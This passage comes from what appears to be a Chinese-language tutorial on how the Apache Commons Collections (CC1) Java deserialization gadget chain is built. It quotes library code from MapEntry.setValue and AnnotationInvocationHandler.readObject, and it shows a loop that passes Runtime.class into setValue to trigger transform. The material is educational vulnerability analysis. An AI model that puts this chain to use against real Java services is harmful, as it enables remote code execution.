 ```java
static class MapEntry extends AbstractMapEntryDecorator {

    /** The parent map */
    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
    }
}
```

于是我们可以这样构造，遍历装饰过的chainedTransformer对象。并且调用setValue方法。就可以调用到tansfrom方法。

```java
for (Map.Entry entry : decoratedMap.entrySet()){
    entry.setValue(Runtime.class);
}
```

至此，我们已经完成了大部分的利用链的寻找，下一步就是寻找哪里调用过setValue，并且可以控制传入的参数。最好是readObject调用过，这样在进行反序列化的时候就可以直接激活整条利用链了。



我们依然使用Idea的Find Usages寻找，最终在sun包下的`sun.reflect.annotation.AnnotationInvocationHandler`的readObject方法中调用了setValue方法。

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();

    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                        annotationType.members().get(name)));
            }
        }
    }
}
```